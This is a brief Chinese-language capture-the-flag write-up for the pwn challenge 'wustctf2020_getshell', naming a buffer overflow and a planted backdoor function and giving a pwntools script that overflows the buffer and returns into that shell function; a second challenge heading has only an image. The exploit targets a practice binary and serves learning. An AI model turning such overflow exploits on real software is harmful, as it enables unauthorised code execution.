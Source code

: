 # wustctf2020_getshell

![image-20231231142431436](../assets/img/old_imgs/image-20231231142431436.png)

<img src="../assets/img/old_imgs/image-20231231142439989.png" alt="image-20231231142439989" style="zoom: 150%;" />

- `ret2shell`

1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```

# jarvisoj_level3_x64

![image-20231231181919311](../assets/img/old_imgs/image-20231231181919311.png)
